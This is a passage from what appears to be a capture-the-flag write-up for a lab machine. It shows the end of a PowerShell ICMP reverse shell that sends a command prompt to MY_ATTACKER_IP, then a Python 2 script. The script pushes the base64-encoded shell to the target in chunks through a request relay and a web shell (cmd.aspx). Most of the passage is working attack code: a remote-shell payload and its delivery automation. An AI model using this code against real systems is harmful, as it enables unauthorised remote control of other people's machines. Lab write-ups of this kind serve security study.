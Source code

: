 $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
$ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
}
}
else
{
$ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
}
$sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
$ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
}
else
{
Start-Sleep -Seconds $Delay
}
}
}
invoke-powershellicmp MY_ATTACKER_IP
{% endhighlight %}

After running <code>base64 Invoke-PowerShellIcmp.ps1 > Invoke-PowerShellIcmp.b64</code>, I wrote the following Python 2 script that automates the process:

{% highlight python %}
#!/usr/bin/python

import urllib2
import urllib
import re

def send_request(url):
    request = urllib2.Request(url)
    try:
        response = urllib2.urlopen(request)
        content = response.read()
        regex = re.search('Status=(\d+)', content)
        if regex:
            if int(regex.group(1)) != 0:
                print "[%d] => %s" % (response.code,regex.group(1))
                print "\t%s" % url
        else:
            print "[%d]" % response.code
        response.close()
    except urllib2.HTTPError as error:
        print "Failed %s" % error.code
        pass

base64_file = 'Invoke-PowerShellIcmp.b64'
url2 = "http://127.0.0.1/cmd.aspx?xcmd="
url1 = "http://10.10.10.57:62696/test.asp?u="

#############################
print "Building \\temp\s.b64"
i = 0
f = open(base64_file, "r")
for line in f:
    new_line = line.strip()

    if i == 0:
        redir = '>'
    else:
        redir = '>>'

    payload = "echo %s %s \\temp\s.b64" % (new_line,redir)
    send_request(url1 + urllib.quote(url2) + urllib.quote(payload))
    i += 1

f.close()